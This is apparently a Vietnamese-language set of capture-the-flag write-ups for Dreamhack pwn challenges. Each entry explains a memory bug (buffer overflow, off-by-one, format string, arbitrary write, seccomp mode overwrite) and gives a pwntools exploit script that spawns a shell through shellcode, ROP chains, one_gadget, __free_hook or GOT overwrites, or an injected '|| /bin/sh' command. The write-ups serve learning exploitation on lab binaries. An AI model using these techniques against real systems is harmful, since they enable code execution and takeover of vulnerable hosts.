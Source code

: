 <details>
<summary>memory_leakage </summary>
	
- Bài cho ta 1 file source và 1 file binary
- Đầu tiên mở source lên thì thấy `name` khai báo 16 byte mà khúc dưới nhập tên đủ 16 byte luôn. Do đó sẽ thiếu byte để encode null terminator => lỗi off by one. Ngoài ra cũng có biến `age` 4 byte do kiểu int
	
![](https://i.imgur.com/yWNAPgl.png)

![](https://i.imgur.com/FgHs49X.png)

- Ở khúc dưới sẽ có chỗ cho ta in tên và tuổi. Vậy ta sẽ debug xem thử thứ tự các biến thế nào để coi leak được hay không

![](https://i.imgur.com/V6GQUJp.png)

- Debug thì thấy thứ tự các biến là name -> age -> flag. Do đó ta chỉ cần cho biến age là số nào đó đủ 4 byte nào đó khác byte `/x00` là lấy được flag

- Tiếp theo kết nối với server. Đầu tiên nhập 3 để load flag. Tiếp theo chọn 1 rồi nhập tên đủ 16 byte, name đủ 4 byte khác byte `/x00`. Cuối cùng nhập 2 để leak.

![](https://i.imgur.com/ZxSGGMB.png)

</details>

<details>
<summary>rtld </summary>
- Đề cho ta file source, file libc và file binary
- Đầu tiên mở file source lên xem thử. Có hàm `get_shell` cho ta shell, ngoài ra hàm `main` leak cho ta libc và cho ta điều khiển dữ liệu của 1 địa chỉ bất kỳ.

![](https://i.imgur.com/skHYxHk.png)

- Tiếp theo ta checksec. Ta thấy PIE enable nên hàm `get_shell` coi như phế vì không leak được. Do đó ở đây ta sẽ sài `one_gadget`

![](https://i.imgur.com/i4KHhC9.png)

- Đề leak cho ta libc vì vậy ta cần overwrite 1 địa chỉ nào đó ở libc mà chương trình có call tới thành `one_gadget`. Đề không leak exe để tính basse nên ở đây khó overwrite `.got.plt`
    
- Do đó ở đây mình cần overwrite địa chỉ libc ở chỗ mình tô vàng. Ở đây theo dreamhack thì mình cần overwrite `_rtld_global`. Đây chính là địa chỉ khi chương trình exit sẽ gọi tới.
![](https://i.imgur.com/KMu39eS.png)

-Tiếp theo mình gdb để tính offset thử.

![](https://i.imgur.com/7j34x4f.png)

- Tiếp theo sài `one_gadget`. Ở đây có địa chỉ cuối mình sài được

![](https://i.imgur.com/L0p36Ds.png)

- Cuối cùng viết script:
```python
from pwn import *
exe = ELF("rtld_patched")
libc = ELF("libc.so.6")
p = remote("host2.dreamhack.games",21781)
#p = process(exe.path)
p.recvuntil(b'stdout: ')
leak =int(p.recvline()[:-1] ,16)
libc.address = leak - 3954208
rtld = libc.address + 6229832
print(hex(libc.address))
print(hex(rtld))
p.sendlineafter(b'addr: ',str(rtld).encode() )
p.sendlineafter(b'value: ',str(libc.address + 0xf1147).encode())
p.interactive()
```
- Chạy thử và ta có flag.
</details>

<details>
<summary>seccomp </summary>
	
- Bài cho ta file source và file binary
- Đầu tiên mở source lên đọc. Tóm tắt thì bài cho ta nhập shellcode để thực thi nhưng sẽ giới hạn không cho ta syscall. Ngoài ra chương trình còn cho ta overwrite 1 địa chỉ bất kỳ.

![](https://i.imgur.com/try1jjo.png)

- Ta lên hàm syscall_filter để đọc thử
    
![](https://i.imgur.com/vXU0sVo.png)

- Ở đây mặc định chương trình sẽ set seccomp mặc định là `SECCOMP_MODE_STRICT`. Mode này chỉ cho phép syscall các hàm sau :  `read`, `write`, `_exit`.
- Ta phân tích tiếp filter của chương trình: Nó chỉ check xem nếu shellcode đang thực hiện có phải của architecture x86-64 hay không, nếu phải thì lấy syscall number, không phải thì terminate bằng sigsegv.
- Tiếp theo ta `checksec`.
![](https://i.imgur.com/pW9sQm7.png)

- Ta thấy PIE disable, mà chương trình mặc định sẽ gọi `SECCOMP_MODE_STRICT`, do đó ta tìm cách overwrite `mode` thành `SECCOMP_MOD`E nào đó mà "nhẹ hơn".
- Đọc doc của linux kernel thì thấy có 2 mode mà ta có thể sài là 0 và 2. 0 tức disable luôn còn 2 là sài cái filter ở trên mình phân tích. Mà cái filter đó không có gì nguy hiểm tới shellcode của mình hết nên mình thích overwrite mode bằng 0 hay 2 là tuỳ. Ở đây mình overwrite thành 2

![](https://i.imgur.com/in6Xdk3.png)

- Tiếp theo ida tìm địa chỉ của `mode`. Ta được địa chỉ là `0x0000000000602090` tức `6299792`
![](https://i.imgur.com/WF8Of4v.png)

- Cuối cùng viết script. Đầu tiên ta overwrite `mode` thành 2, sau đó nhập shellcode cuối cùng thực thi 
```python
from pwn import *
exe = ELF("seccomp")
#p=remote("host3.dreamhack.games",21718)
p = process(exe.path)

context.update(arch='amd64',os='linux')
shell = shellcraft.sh()

p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'addr: ',b'6299792')
p.sendlineafter(b'value: ',b'2')

p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'shellcode: ',asm(shell))

p.sendlineafter(b'> ',b'2')
p.interactive()
```
</details>

<details>	
<summary>Welcome </summary>
	
- Ta chỉ cần kết nối và lấy flag
    
![](https://i.imgur.com/iDQVZs4.png)

</details>

<details>
<summary>basic_exploitation_000 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đầu tiên mở source xem thì thấy bị lỗi buffer overflow ở `scanf`
    
![](https://i.imgur.com/n5GB0GC.png)

- Do tắt hết các chế độ bảo vệ và trong code không có chỗ nào để lấy flag nên ta sẽ làm theo dạng ret2shell code
    
![](https://i.imgur.com/YEmF9r9.png)
    
- `scanf` không thể đọc các byte `\x09, \x0a, \x0b, \x0c, \x0d, \x20` do đó cần chọn shell cẩn thận

- Đây là shell tìm được
    
![](https://i.imgur.com/6JHxzSU.png)

- Kế tiếp ta tìm padding để overwrite ret address. Nếu tìm đúng thì ta được code như sau:
```python
from pwn import *
p = remote("host3.dreamhack.games",19166)
#p = process("./basic_exploitation_000")
p.recvuntil(b'(')
leak = int(p.recv(10).decode(),16)
print(hex(leak))
shell = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80"
payload = shell
payload += payload.rjust(132-len(shell), b"\x90") +  p32(leak)
p.sendlineafter(b")\n", payload)
p.interactive()
```
- Chạy script trên ta sẽ có được shell

</details>

<details>
<summary>basic_exploitation_001 </summary>
	
- Đề cho ta một file source và 1 file binary

![](https://i.imgur.com/YK5Xv37.png)

- Nhìn code thì mục đích ta là lợi dụng buffer overflow để chuyển ret qua `read_flag`
    
- Do đó ta cần tìm padding rồi overwrite ret address

- Script : 
```python
from pwn import *
exe = ELF("./basic_exploitation_001")
p= remote("host3.dreamhack.games", 1576)
#p= process(exe.path)
payload = b'A'*132 + p32(exe.sym['read_flag'])
p.sendline(payload)
p.interactive()
```
- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>shell_basic </summary>
	
- Đề cho ta một file source và 1 file binary
    
- Đọc code thì thấy chương trình sẽ chạy shellcode của ta nhập vào, và nó muốn ta viết asm để write, read, không sài `execve`

![](https://i.imgur.com/gtb4Dui.png)

- Đề cho ta sẵn tên flag và trong pwntool có sẵn thư viện để cat luôn nên sài cho nhanh
    
![](https://i.imgur.com/liAisvR.png)
    
- Script: 
```python
from pwn import *
context.arch='amd64'
p=remote("host1.dreamhack.games",15482)
p.sendafter(":",asm(shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")))
p.interactive()
```

- Chạy script trên ta sẽ có được flag
</details>

<details>
<summary>Return Address Overwrite </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì ta cần buffer overflow ở `scanf` để ret qua `get_shell`
    
![](https://i.imgur.com/FoP72KD.png)
    
- checksec thì thấy canary tắt nên bài này tìm padding overwrite bình thường là ra

![](https://i.imgur.com/N6HDEQj.png)

- Do mấy bài này dạng cơ bản nên mình không phân tích chi tiết

- Script : 
```python=
from pwn import *
exe = ELF("./rao")
p = remote("host3.dreamhack.games", 12411)
payload = b'A'*56 + p64(exe.sym['get_shell'])
p.sendlineafter(b"Input: ", payload)
p.interactive()
```
- Chạy script trên ta sẽ lấy được shell
</details>

<details>
<summary>basic_exploitation_003 </summary>
	
- Đề cho ta một file source và 1 file binary
- Đọc code thì nhận thấy có hàm `sprintf` bị lỗi format string. Hàm này copy `heap_buf` vào `stack_buf` , do trong hàm này không check có format specifier nào không nên bị lỗi này.
    
![](https://i.imgur.com/ZUdyNFB.png)

- Bài này ta có thể lợi dụng fmt để buffer overflow stack_buf hoặc sài fmt ghi địa chỉ nào đó luôn. Ở đây mình sài cách đầu tiên để overwrite ret address của main.
    
![](https://i.imgur.com/QYR5ZTb.png)

- Trừ 2 giá trị tô đỏ trên ta được offset là 256

- Script:
```python
from pwn import *

exe = ELF("basic_exploitation_003")
#p = remote("host2.dreamhack.games",13411)
p = process(exe.path)
p.sendline(b'%156c'+p32(exe.sym['get_shell']))
p.interactive()
```

</details>

<details>
<summary>out_of_bound </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/1a2kgkJ.png)

- Nhận thấy chương trình không check bound của idx nên sẽ bị lỗi out of bound cho ta thực hiện câu lệnh bất kỳ ở hàm `system`

- Ngoài ra đề cũng kêu nhập tên. Do đó mục đích ta là làm system gọi tới địa trỉ trỏ tới string `/bin/sh`. Ta sẽ làm bằng cách lợi dụng nhập tên ở name

- Do đó ta cần làm command trỏ tới name bằng cách tính offset của id: `0x0804A0AC = 4*id + 0x0804A060`. Ta được id là 19.

![](https://i.imgur.com/eGCzO2q.png)


- Phân tích ta nhận thấy khi trỏ tới name ta cần input thêm một địa chỉ trỏ tới chuỗi `/bin/sh` rồi mới tới `/bin/sh`

- Script:
```python
from pwn import *
p=remote("host3.dreamhack.games",9645)
#p =process("./out_of_bound")
payload = p32(0x0804A0AC+8)+b'\x00'*4+b'/bin/sh\x00'
p.sendafter(b'Admin name: ',payload)
p.sendafter(b'What do you want?: ',b'19')
p.interactive()
```
- Chạy script trên ta sẽ có được shell
</details>

<details>
<summary>Return to Shellcode </summary>
	
- Đề cho ta một file source và 1 file binary
    
![](https://i.imgur.com/xUqhvgK.png)

- Đọc code thì thấy có thể sẽ leak canary và bị lỗi ở buffer overflow ở hàm `gets` 

- Checksec thì nhận thấy `NX disable` và đây là file x64 nên ta giải theo ret2shellcode x64
    
![](https://i.imgur.com/MWLEtJY.png)

- Đầu tiên là leak canary, ta sẽ lợi dụng buffer overflow rồi tìm padding tới canary leak. Do canary có byte 00 đầu làm ảnh hưởng tới printf nên ta sẽ leak lố qua 1 byte

![](https://i.imgur.com/K9pMdma.png)

- Ta sẽ tìm được offset là 0x61 byte. Vậy thì đầu tiên ta sẽ leak ra canary rồi sau đó overwrite ret của `main` qua address `buf` để thực hiện shellcode

- Script : 
```python
from pwn import *
p = process("./r2s")
context.arch = "amd64"
p.recvuntil("buf: ")
buf = int(p.recvline()[:-1], 16)
p.recvuntil("$rbp: ")
buflen = int(p.recvline().split()[0])
buf_cana = buflen - 8

payload = b"A"*(buf_cana + 1)
p.sendafter("Input:", payload)
p.recvuntil(payload)
leak = u64(b"\x00"+p.recvn(7))

shell = asm(shellcraft.sh())
payload = shell.ljust(buf_cana, b"A") + p64(leak) + b"A"*0x8 + p64(buf)

p.sendlineafter("Input:", payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x86 </summary>
	
- Đề cho ta 1 file source và file binary

![](https://i.imgur.com/EGKSycy.png)

- Đọc code thì nhận thấy có lỗi buffer overflow ở hàm `read`
    
- Tiếp theo ta `checksec` thì thấy dựa vào tên bài và lỗi này thì chắc chắn ret2libc x86 =)) 

![](https://i.imgur.com/1iyqyyC.png)

- Vậy thì lần đầu ta sẽ leak libc -> quay lại main -> overwrite ret main thành `system('/bin/sh')`

- Để leak libc ta overwrite ret của main theo padding sau để theo calling convention của x86 :`padding + đc plt put + ret main + đc got cần leak` (do arguments push lên stack nên không cần kiếm rop pop rdi...)

- Sau khi có libc ta làm tương tự payload sau để lấy shell: `padding + đc system + gì cũng được + đc binsh`
    
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x86_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",16434)

payload = b'a'*72 + p32(exe.plt['puts']) + p32(exe.sym['main'])+ p32(exe.got['read'])
p.send(payload)

p.recvuntil(b'a'*64)
read_leak = u32(p.recv(4))
print("leak read : ",hex(read_leak))

libc.address = read_leak-869200
#binsh = libc.address + 1806581
binsh = next(libc.search(b"/bin/sh"))
payload = b'a'*72 + p32(libc.sym['system']) + p32(binsh)+ p32(binsh)
p.send(payload)
p.interactive()
```
</details>

<details>
<summary>basic_rop_x64 </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/QYZZRyB.png)

- Code với checksec y chang phần trước ngoại trừ đây là file x64 thôi.
- Do đó ta làm theo dạng ret2libc x64
- Dạng này thì leak libc -> về `main` -> thực thi `system` y chang phần trước ngoại trừ ta cần kiếm `pop rdi ret` gadget và thích thì kiếm `one_gadget` để lấy shell cho nhanh.
- Script : 
```python
from pwn import *
exe = ELF("basic_rop_x64_patched")
libc = ELF("libc.so.6")
p = remote("host3.dreamhack.games",18845)
pop_rdi = 0x400883
payload = b'A' * 72 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) +  p64(exe.sym['main'])
p.sendline(payload)

p.recvuntil(b'A' * 64)
leak_libc = u64(p.recvline(keepends=False) + b"\x00\x00")
log.info("leak libc: " + hex(leak_libc))

libc.address = leak_libc - 456336

payload = b'A'* 72 + p64(libc.address + 0x45216)
p.sendline(payload)
p.interactive()
```
</details>

<details>
<summary>sint </summary>
	
- Bài cho ta 1 file source và 1 file binary
    
![](https://i.imgur.com/MT2hly4.png)

- Đọc code thì thấy `size` phải trong khoảng [0,256], sau đó sẽ nhập `size-1` số vào `buf`

- Đọc manpage `read` thì nhận thấy `size-1` đó phải là số dương mà nếu ta nhập 0 sẽ dẫn đến `size-1<0` làm read nhận dạng số âm thành số dương. Do đó có lỗi bufer overflow ở `read` nếu ta nhập 0
                                                                                                     
![](https://i.imgur.com/GRBZ6j3.png)

- Ngoài ra chương trình cũng có hàm `get_shell` để lấy shell. Do đó ta cần buffer overflow để ret2get_shell 
                                                                                                       - Script:
```python=
from pwn import *
exe = ELF("sint")
p = remote("host3.dreamhack.games",12276)
#p = process(exe.path)
p.sendlineafter(b'Size: ',b'0')
p.sendlineafter(b'Data: ',b'a'*260+p32(exe.sym['get_shell']))
p.interactive()
```    
</details>

<details>
<summary>Return to Library</summary>
	
- Bài cho ta 1 file source và 1 file binary
    
- Đọc code thì thấy ta cần leak canary rồi overwrite ret address do có lỗi buffer overflow

![](https://i.imgur.com/4rmzscx.png)

- Đọc thì bài này là bài kết hợp ret2libc x64 với ret2shellcode ở trên.

- Ở đây ta không cần leak libc vì No PIE

![](https://i.imgur.com/90ushGF.png)

- Dạng cơ bản nên làm `pop rdi, ret` bình thường thôi. Mà ở đây mình chain thêm ret vì lúc đầu bị lỗi xmm

- Script : 
```python
p.sendafter('Buf: ',payload)
p.recvn(61)
canary = u64(p.recvn(8)) - 0x41

pop_rdi = 0x00400853
ret = 0x400285
binsh = 0x600874
system = 0x4005d0
payload = 'A'*0x38 + p64(canary) + 'A'*0x8
payload += p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)
p.send(payload)
p.interactive()
```
</details>
    
<details>
<summary>one_shot </summary>
	
- Bài cho ta một file binary, 1 file source, 1 file libc

- Đọc file source thì thấy đề sẽ leak libc và bị lỗi buffer overflow ở `read` 

![](https://i.imgur.com/6futpAZ.png)

- Bài không có canary nên overflow bình thường. Ngoài ra code không có chỗ để leak nên bài này ta làm ret2libc.
![](https://i.imgur.com/qTICEDD.png)

- Đề cho overflow 46 byte mà nếu tính padding + chain `pop rdi` sẽ không đủ do đó bài này muốn ta sài `one_gadget`

- Sài `one_gadget` ta được như sau:

![](https://i.imgur.com/EEjsqdh.png)

- Rồi thì ret2libc bình thường thôi.
- Script:

```python
from pwn import *
exe = ELF("oneshot_patched")
libc= ELF("libc.so.6")
#p = process(exe.path)
p= remote("host3.dreamhack.games",20854)
p.recvuntil(b'stdout: ')
std = int(p.recvline(keepends=False).decode(), 16)
libc.address = std - 3954208
payload = b'A'*24 + p64(0) + b'A'*8 + p64(libc.address+0x45216)
p.sendlineafter(b'MSG: ',payload)
p.interactive()
```
</details>
    
<details>
<summary>off_by_one_001 </summary>
	
- Đề cho ta 1 file source và 1 file binary    

- Đọc code thì thấy nếu ta làm cho `age = 0` thì có shell

![](https://i.imgur.com/sMZUFaw.png)

- Đọc hàm `read_str` thì thấy nếu ta nhập đủ 20 ký tự thì sẽ gán index thứ 20 là `\0`. Nhưng thực tế thì `ptr` khai báo là [20] tức từ index 0 ->19. Nên ở đây có lỗi off by one và vô tình ghi vào age và có shell
    
![](https://i.imgur.com/qLTMUax.png)

- Nhập thử và được shell:
    
![](https://i.imgur.com/4E8t67A.png)

</details>
    
<details>
<summary>hook </summary>
	
- Bài cho ta 1 file source, file binary và file libc.    

- Đọc source thì thấy chỗ `*(long *)*ptr = *(ptr+1);` rất đáng ngờ vì nó cho phép ta ghi. Giả sử ta có mảng a[2]={1,2} thì phép toán trên trên tương tự gán a[0]=a[1]. 

![](https://i.imgur.com/BRTXl9y.png)

- Do đó ta cần chọn địa chỉ cần ghi và ở đây là `free`. Ta muốn ghi `free` thành `one_gadget` để lấy shell. 
- Đề leak sẵn cho ta libc, one_gadget thì ta chọn từng cái, cái nào được thì sài.
    
![](https://i.imgur.com/VQL4Gb1.png)

- Chỗ `size` ta nhập số bất kỳ miễn sau đủ lớn để chứa 2 địa chỉ. Còn `data` thì ta input payload để gán địa chỉ `hook` thành địa chỉ `one_gadget`
- Script : 
```python
from pwn import *
exe = ELF("hook_patched")
libc = ELF("libc.so.6")
#p = process(exe.path)
p = remote("host3.dreamhack.games",9920)
p.recvuntil("stdout: ")
stdout = int(p.recvline()[:-1], 16)
libc.address = stdout - 3954208
print(hex(libc.symbols["__free_hook"]))
p.sendlineafter(b'Size: ',b'100')
payload = p64(libc.symbols["__free_hook"]) + p64(libc.address+ 0x4526a)
p.sendlineafter(b'Data: ',payload)
p.interactive()
```

- Ở đây ta sài `__free_hook` vì nó chứa địa chỉ thực thi của `hook` 
- Chạy script trên ta sẽ có shell
</details>

<details>
<summary>rop </summary>
	
- Đề cho ta file source, file libc,file docker,file binary

- Đầu tiên ta đọc source thì thấy cũng giống mấy bài rop trên thôi =)). Bắt leak canary rồi ret2libc

![](https://i.imgur.com/VZBcygu.png)

- Vậy thì ta làm y chang bài trên là được.
- Script : 
```python
from pwn import *

exe=ELF("rop_patched")
libc = ELF("libc.so.6")

#p=process(exe.path)
p = remote("host3.dreamhack.games",17896)

'''
gdb.attach(p,
"""
b*main
c
""")
input()
'''
buf = b"A"*0x39
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
cnry = u64(b"\x00"+p.recvn(7))

pop_rdi_ret = 0x00000000004007f3
payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(pop_rdi_ret) + p64(exe.got['read']) + p64(exe.plt['puts']) + p64(exe.sym['main'])

p.sendafter("Buf: ",payload)

leak = u64(p.recvn(6)+b'\x00\x00')
print(hex(leak))
libc.address =  leak - libc.sym['read']
print("libc base : ",hex(libc.address))
print("libc system " ,hex(libc.sym['system']))

p.sendafter("Buf: ",b'a')

payload = b'A'*56 + p64(cnry)+ b'A'*8
payload += p64(0x000000000040055e) + p64(pop_rdi_ret) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendafter("Buf: ",payload)
p.interactive()
```
</details>

<details>
<summary>off_by_one_000</summary>
	
- Đề cho ta 1 file source và 1 file binary
- Đọc file source thì thấy có lỗi off by one ở hàm `strcpy` do biến `cp_name` max là 256 ký tự (bao gồm null byte), khi ta input max 256 ký tự thì sẽ overwrite 1 byte qua `real_name`. Ngoài ra có hàm `get_shell` cho ta shell
- Để coi sự ảnh hưởng của 1 byte null đó ta sẽ debug.
    
![](https://i.imgur.com/7YBUhDZ.png)

- Ở đây trước và sau nhận thấy byte cuối của epb bị overwrite thành 00
- Khi ret address của main lúc này thành `0xffffd004` trỏ về đâu đó giữa chuỗi mình nhập vào
    
![](https://i.imgur.com/TzxgygT.png)

- Do đó khi bị off by one nó sẽ trỏ về giữa stack
    
![](https://i.imgur.com/qpkzABd.png)

- offset là 20 chia hết cho 4 vậy thì đỡ tính toán ta gửi payload là địa chỉ của get_shell (256/4) lần (do địa chỉ get_shell gồm 4 số).
- Script : 
```python
from pwn import *
exe = ELF("off_by_one_000")
p = remote("host3.dreamhack.games",15154)
#p = process(exe.path)
p.sendafter(b'Name: ',p32(exe.sym['get_shell'])*64)
p.interactive()
```
</details>
    
<details>
<summary>cmd_center </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow ở `read`
![](https://i.imgur.com/D1zAKwq.png)

- Phân tích thì hàm `strncmp` so sánh `cmd_ip` với `ipconfig`. Hàm `strncmp` sẽ so sánh đến khi 1 trong 2 gặp null terminator hoặc sâu cmd_ip khác với `ipconfig` 8 chữ cái đầu. Do đó ta sẽ lợi dụng buffer overflow để overwrite `cmd_ip` thành sâu gồm `ipconfig` + lệnh để lấy shell.
- Script: 
```python
from pwn import *
p = remote("host3.dreamhack.games",15401)
#p = process("./cmd_center")
payload = b'A'*32+b'ifconfig || /bin/sh\x00'
p.sendafter(b'Center name: ',payload)
p.interactive()
```
</details>

<details>
<summary>ssp_000 </summary>
	
- Bài cho ta 1 file binary và 1 file source
    
- Đọc source thì thấy có lỗi buffer overflow và code cho ta gán địa chỉ bất kỳ. Còn có hàm `get_shell` cho ta shell
    
![](https://i.imgur.com/AgJK0xU.png)

- Checksec thì thấy canary bật , NO PIE
    
![](https://i.imgur.com/lPS5Btj.png)


- Phân tích thì nếu bị buffer overflow canary thì code sẽ gọi `stack_chk_fail`. Do đó nếu ta lợi dụng bof để gọi `stack_chk_fail` và dùng lỗi ghi địa chỉ kia để overwrite got `stack_chk_fail` thành `get_shell` thì ta sẽ có được shell
- Script : 
```python
from pwn import *
exe = ELF("ssp_000")
p= remote("host2.dreamhack.games",8718)
#p=process(exe.path)
p.sendline(b'a'*0x80)
p.sendlineafter(b'Addr : ',str(exe.got['__stack_chk_fail']))
p.sendlineafter(b'Value : ',str(exe.sym['get_shell']))
p.interactive()
```
</details>

<details>
<summary>fho </summary>
	
- Đề cho ta 1 file source, file binary,file libc
    
- Đọc code thì thấy có lỗi bof cho ta leak stack,ngoài ra còn có phép gán địa chỉ bất kỳ.
    
![](https://i.imgur.com/uA4un6V.png)

- Checksec thì thấy full giáp
    
![](https://i.imgur.com/9osTwMz.png)

- Ý tưởng hiện tại là leak libc -> write `free` thành `system` -> nhập add là đc `/bin/sh` để lấy shell
- Đầu tiên là leak libc. Ở đây mình sẽ leak `__libc_start_call_main`. Các bước để leak thì làm như bình thường.

![](https://i.imgur.com/H5UEpm5.png)

- Leak xong thì overwrite `free` thành `system`. Để overwrite `free` thì ta cần ghi vào địa chỉ của `__free_hook` vì ở đây chứa địa chỉ thực thi của `free`. Cuối cùng thì lấy ``/bin/sh trong libc.
- Script:
```python
from pwn import *
exe = ELF("fho_patched")
libc= ELF("libc.so.6")
#p=process(exe.path)
p=remote("host3.dreamhack.games",14797)
p.sendlineafter(b'Buf: ',b'a'*72)
p.recvuntil(b'a'*72)
leak = u64(p.recv(6) + b'\x00\x00')
libc.address = leak - 137994
print(hex(libc.address))
p.sendlineafter(b'To write: ', str(libc.sym['__free_hook']))
p.sendlineafter(b'With: ', str(libc.sym['system']))
p.sendlineafter(b'To free: ', str(next(libc.search(b'/bin/sh'))))
p.interactive()
```
</details>
